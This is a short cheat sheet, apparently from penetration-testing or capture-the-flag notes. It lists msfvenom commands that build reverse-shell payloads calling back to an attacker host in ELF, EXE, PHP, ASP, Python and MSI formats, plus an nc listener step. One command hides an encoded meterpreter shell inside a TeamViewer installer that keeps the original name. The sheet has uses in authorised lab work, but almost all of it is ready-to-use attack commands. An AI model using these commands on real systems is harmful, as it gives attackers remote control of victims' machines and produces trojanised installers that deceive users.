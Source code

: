 # Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe


msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

## POC 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
sudo nc -nvlp 53
C:\PrivEsc\reverse.exe

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

# MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi 